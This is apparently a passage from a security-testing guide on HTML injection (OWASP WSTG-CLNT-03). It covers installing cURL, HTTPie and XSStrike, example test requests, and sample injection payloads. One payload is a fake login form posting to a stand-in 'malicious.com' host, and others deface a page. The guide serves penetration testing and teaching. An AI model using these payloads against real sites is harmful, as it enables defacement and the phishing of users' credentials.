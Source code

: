- **cURL and HTTPie**: Send HTTP requests to test HTML payloads in URL parameters or form data.
  - **cURL**:
    - Install on Linux:
      ```bash
      sudo apt install curl
      ```
    - Install on Windows/Mac: Pre-installed or download from [curl.se](https://curl.se/).
  - **HTTPie** (beginner-friendly):
    - Install on Linux/Mac:
      ```bash
      sudo apt install httpie
      ```
    - Install on Windows: `pip install httpie`.
    - Example:
      ```bash
      # cURL
      curl -i "http://example.com/page?name=<div>test</div>"
      # HTTPie
      http "http://example.com/page?name=<div>test</div>"
      ```

- **XSStrike**: A Python-based tool for testing client-side injection vulnerabilities, including HTML injection.
  - Install:
    ```bash
    git clone https://github.com/s0md3v/XSStrike.git
    cd XSStrike
    pip install -r requirements.txt
    ```
  - Usage:
    ```bash
    python3 xsstrike.py -u "http://example.com/page?name=test" --dom
    ```
  - **Note**: Use `--dom` flag to focus on client-side rendering issues.

- **HTML Payloads**: Curated payloads for manual and automated testing.
  - Sample payloads:
    - `<div style="color:red">Injected Content</div>`
    - `<h1>Defaced Page</h1>`
    - `<form action="http://malicious.com"><input type="submit" value="Login"></form>`
  - Resource: [OWASP Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html).
  - **Tip**: Test payloads in form fields or URL parameters and inspect page rendering.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-CLNT-03, testing HTML injection vulnerabilities across form inputs, URL parameters, client-side rendering, and potential XSS escalation.
